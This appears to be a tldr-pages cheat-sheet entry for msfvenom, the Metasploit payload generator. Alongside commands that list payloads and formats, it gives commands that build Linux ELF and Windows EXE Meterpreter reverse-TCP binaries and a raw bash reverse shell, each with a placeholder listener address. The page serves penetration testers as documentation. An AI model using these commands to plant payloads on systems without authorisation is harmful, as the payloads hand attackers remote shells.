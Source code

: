 ```yaml
---
layout: page
title: common/msfvenom (English)
description: "Manually generate payloads for metasploit."
content_hash: 7918cafc87e5a6f6b088baf1d15fec4e056a6396
last_modified_at: 2023-11-12
tldri18n_status: 2
---
```

# msfvenom

Manually generate payloads for metasploit.
More information: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>.

- List payloads:

`msfvenom -l payloads`

- List formats:

`msfvenom -l formats`

- Show payload options:

`msfvenom -p `<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">payload</span>` --list-options`

- Create an ELF binary with a reverse TCP handler:

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=`<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">local_ip</span>` LPORT=`<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">local_port</span>` -f elf -o `<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">path/to/binary</span>

- Create an EXE binary with a reverse TCP handler:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=`<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">local_ip</span>` LPORT=`<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">local_port</span>` -f exe -o `<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">path/to/binary.exe</span>

- Create a raw bash with a reverse TCP handler:

`msfvenom -p cmd/unix/reverse_bash LHOST=`<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">local_ip</span>` LPORT=`<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">local_port</span>` -f raw`
